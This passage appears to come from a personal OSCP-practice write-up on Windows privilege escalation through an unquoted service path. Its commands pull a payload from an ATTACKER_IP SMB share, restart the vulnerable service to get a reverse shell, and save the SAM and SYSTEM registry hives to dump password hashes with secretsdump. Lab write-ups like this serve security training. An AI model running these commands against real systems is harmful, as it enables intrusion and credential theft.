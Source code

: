 Start a process, make a procinfo object and attach it to proc.startinfo and finally start the process

`mcs wrapper.cs`

Use SMB to transfer the compiled .exe

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
net use \\ATTACKER_IP\share /del
```

Copy to the directory unquoted and rename to System.exe cus thats the file being called

`sc stop SystemExplorerHelpService`

`sc start SystemExplorerHelpService`

Catch the reverse shell, we are root

`reg.exe save HKLM\SAM sam.bak`

`reg.exe save HKLM\SYSTEM system.bak`

`python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL`

<figure><img src="../.gitbook/assets/image (77).png" alt=""><figcaption><p>dump user hashes using sam and system files</p></figcaption></figure>

### Conclusion

Miss Dubai, i love you. Let's go get this OSCP done asap.
